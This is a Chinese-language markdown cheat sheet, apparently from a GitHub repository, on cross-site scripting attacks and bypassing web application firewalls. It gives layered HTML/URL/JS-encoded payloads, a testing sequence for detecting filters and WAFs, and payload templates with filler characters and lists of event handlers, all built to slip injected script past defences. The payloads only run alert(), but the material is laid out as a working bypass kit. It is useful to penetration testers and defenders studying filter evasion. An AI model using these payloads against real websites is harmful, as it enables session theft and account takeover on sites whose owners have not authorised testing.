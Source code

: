 # xss 攻击和绕过思路

## 什么样的api可能存在xss 漏洞
输入参数如果能回显则可能存在xss 漏洞

存在xss 的位置可能是
* html 内容
* html 属性
* css 内联样式
* 内联js或者json
* href 等

常见的是html 内容和属性
```
<input> html 内容 </input>

<input> html 内容 </input value=""// html 属性>

```

## html编码，url 编码 和js 编码

html 的解析顺序为3个环节：HTML解码 -->URL解码 -->JS解码

举例1：
```
1. 对javascript:alert(1)进行HTML编码
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
2. 对alert进行JS编码
<img src=xxx onerror="javascript:\u0061\u006c\u0065\u0072\u0074(1)">
3. 以上两种方法混用
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;&#x28;&#x31;&#x29;">

```
举例2：
```
1. 原代码
<a href="javascript:alert('xss')">test</a>
2. 对alert进行JS编码（unicode编码）
<a href="javascript:\u0061\u006c\u0065\u0072\u0074('xss')">test</a>
3. 对href标签中的\u0061\u006c\u0065\u0072\u0074进行URL编码
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')">test</a>
4. 对href标签中的javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')进行HTML编码：
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;">test</a>

```

## 攻击顺序
1. 判断是否存在字符串编码
输入<script>alert("1")</script>, 看是否转成html 实体，可以判断是否使用html实体转换。
  
2. 是否存在waf
一般waf 返回403，如果发现403，则存在waf拦截。

## waf 绕过
### 1. xss输出在html内容

一般payload 格式有下面几种
```
<{tag}{filler}{event_handler}{?filler}={?filler}{javascript}{?filler}{>,//,Space,Tab,LF}
```

```
<sCriPt{filler}sRc{?filler}={?filler}{url}{?filler}{>,//,Space,Tab,LF}
```

```
<A{filler}hReF{?filler}={?filler}{quote}{special}:{javascript}{quote}{?filler}{>,//,Space,Tab,LF}
```

/**{tag}**/：html 标签名： a img script 等等

/**{filter}**/：空格，/ 等，可以是url 编码的字符
```
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s] tab
<tag%09%09xxx -如果失败， s+ tabtab
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+
```
/**event_handler**/ 可能是多个even 函数:
```
onclick
onauxclick
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
```
/**{javascript}**/: js代码
js 代码可以混淆，可以js编码成unicode，可以使用html实体编码，几乎没法正则表达式绕过


### 2. xss输出在html 属性
常见的payload 格式：
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```

## html 编码绕过
html 一般会过滤掉< > " $, 所以输出在html 内容位置的xss 泄露可以完全避免，但是输出在html 属性的payload 可能会漏放
一般payload 以下格式
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```
举例：
```
"a onclick="alert('xss')"
```
